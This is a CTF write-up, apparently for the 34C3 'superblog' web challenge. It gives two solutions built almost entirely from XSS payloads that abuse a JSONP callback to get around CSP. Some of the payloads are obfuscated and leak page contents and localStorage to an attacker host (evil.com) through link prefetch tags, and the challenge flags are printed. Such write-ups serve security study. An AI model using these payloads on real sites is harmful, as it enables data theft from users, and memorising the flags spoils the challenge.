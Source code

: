 ### Solution 1

POST0

```
<a id="aa" href="http://localhost/post/post1"></a>
<script src="/feed?type=jsonp&cb=document.getElementById`aa`.click``,console.log"></script>
```

POST1

```
<a id="aa" href="post2" target="_blank"></a>
<a id="bb" href="/flag1"></a>
<script src="/feed?type=jsonp&cb=document.getElementById`aa`.click``,document.getElementById`bb`.click``,console.log"></script>
```

POST2

```
<a id="aa" href="post3" target="_blank"></a>
<a id="bb" href="/static/"></a>
<script src="/feed?type=jsonp&cb=document.getElementById`aa`.click``,document.getElementById`bb`.click``,console.log"></script>
```

POST4

```
<script src="evil.js"></script>
<script src="/feed?type=jsonp&cb=opener.document.write`${document.body.firstElementChild.nextElementSibling.firstElementChild.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.innerText}`,console.log"></script>
```

1.Since static files was placed in the Nignx of 80 port , So the CSP didn't work.

2.We can location to another page ，then write the javascript code to the static page.

3.The opener for static became the flag page ,so we can leak the innerhtml to our service by "some attack".

The idea referenced in [link](https://blog.cal1.cn/post/34C3%20CTF%20web%20writeup).

### Solution 2

The following ideas referenced in CTFTIME.Constructing through a limited number of characters

For example: 

```
$,{,`
```

Exploit as follows:

```
<link id=foo rel=import href=/flag(1|2)>



<!-- superblog 1 - flag: 34C3_so_y0u_w3nt_4nd_learned_SOME_javascript_g00d_f0r_y0u -->
<script>
document.write`${Array.call`${atob`PA`}${`l`}${`i`}${`n`}${`k`}${atob`IA`}${`r`}${`e`}${`l`}${atob`PQ`}${atob`Ig`}${`p`}${`r`}${`e`}${`f`}${`e`}${`t`}${`c`}${`h`}${atob`Ig`}${atob`IA`}${`h`}${`r`}${`e`}${`f`}${atob`PQ`}${atob`Ig`}${`h`}${`t`}${`t`}${`p`}${atob`Og`}${atob`Lw`}${atob`Lw`}${`evil`}${atob`Lg`}${`com`}${atob`Og`}${atob`Lw`}${Math.random``}${`_`}${escape.call`${document.getElementsByTagName`link`.item``.import.body.innerText}`}${atob`Ig`}${atob`Pg`}`.join``}`,
</script>

//Versions up to M80
  
<!-- superblog 2 - flag: 34C3_h3ncef0rth_peopl3_sh4ll_refer_t0_y0u_only_4s_th3_ES6+DOM_guru -->
<script>
document.write`${foo.import.body.innerHTML}`,document.write`${Array`${atob`PA`}${`input`}${atob`IA`}${`form`}${atob`PQ`}${`flagform`}${atob`IA`}${`name`}${atob`PQ`}${`captcha_answer`}${atob`IA`}${`x`}${atob`PQ`}${atob`Ig`}`.join``}${atob`Ig`}${`value`}${atob`PQ`}${parseInt.call`${foo.import.getElementById`flagform`.firstChild.nextSibling.nextSibling.textContent.split`%2b`.shift``}`%2bparseInt.call`${foo.import.getElementById`flagform`.firstChild.nextSibling.nextSibling.textContent.split`%2b`.pop``}`}${atob`Pg`}`,document.write`${atob`PA`}${`script`}${atob`IA`}${`src`}${atob`PQ`}${atob`Lw`}${`feed`}${atob`Pw`}${`type`}${atob`PQ`}${`jsonp`}${atob`Jq`}${`cb`}${atob`PQ`}${`flagform.lastElementChild.click`}${atob`YA`}${atob`YA`}${`,document.write${atob`YA`}${atob`JA`}${`{localStorage.getItem`}${atob`YA`}${`$`}${`{`}${atob`YA`}${atob`YA`}${`}`}${atob`YA`}${`}`}${`$`}${`{flag.innerText}`}${atob`YA`}${`,`}${atob`Pg`}${atob`PA`}${atob`Lw`}${`script`}${atob`Pg`}`}`,localStorage.setItem`${Array.call`}${atob`PA`}${`link`}${atob`IA`}${`rel`}${atob`PQ`}${atob`Ig`}${`prefetch`}${atob`Ig`}${atob`IA`}${`href`}${atob`PQ`}${`http`}${atob`Og`}${atob`Lw`}${atob`Lw`}${`evil`}${atob`Lg`}${`com`}${atob`Og`}${atob`Lw`}${Math.random``}${`_`}`.join``}`,
</script>
```

